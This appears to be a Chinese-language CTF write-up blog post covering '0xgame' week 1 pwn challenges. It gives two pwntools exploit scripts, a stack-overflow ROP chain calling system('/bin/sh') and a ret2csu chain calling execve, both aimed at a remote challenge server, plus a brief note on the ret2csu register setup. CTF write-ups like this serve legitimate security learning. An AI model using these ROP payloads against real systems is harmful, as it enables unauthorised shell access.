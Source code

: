 #### ***[Week 1] 5. where_is_my_binsh\***

很简单的栈溢出，爱来自北京

```
from pwn import *
#io = process('./pwn3')
io = remote('47.97.58.52',40004)
elf = ELF('./pwn3')
sys_plt = elf.plt['system']
binsh_addr = 0x404090
pop_rdi_ret = 0x401323
io.send(b'/bin/sh\x00')
io.send(b'A'*24 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(0x40101a) + p64(sys_plt))
io.interactive()
```

#### ***[Week 1] 6. ret2csu\***

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-13-1024x548.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-14-1024x388.png)

题目中发现了execve的got表

ret2csu就是用loc_4013B6的gadget将需要的参数压入r12,r13,r14,r15

公式是：rbx=0, rbp=1, r12=args1, r13=args2, 

r14=args4, r15=execve.got, last = loc_4013A0

这样我们就可以通过loc_4013B6和loc_4013A0调用execve函数了

```
from pwn import *
#io = process('./pwn5')
io = remote('47.97.58.52',40005)
elf = ELF('./pwn5')
io.send(b'/bin/sh\x00')
payload = b'A'*14 + b'\x00'*2 + b'B'*8 + p64(0x4013BA) + p64(0) + p64(1) + p64(0x404090) + p64(0) + p64(0) + p64(0x404038) + p64(0x4013A0) + b'A'*56
#gdb.attach(io)
#pause()
io.send(payload)
io.interactive()
```

# 0xgame week2

难度上来一点点，确实遇到了棘手一点的题，主要是代码总是不知道为什么就报错，这也算我的一个痛点把

#### [Week 2] Shellcode-lv0

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-15-1024x632.png" alt="img" style="zoom:50%;" />
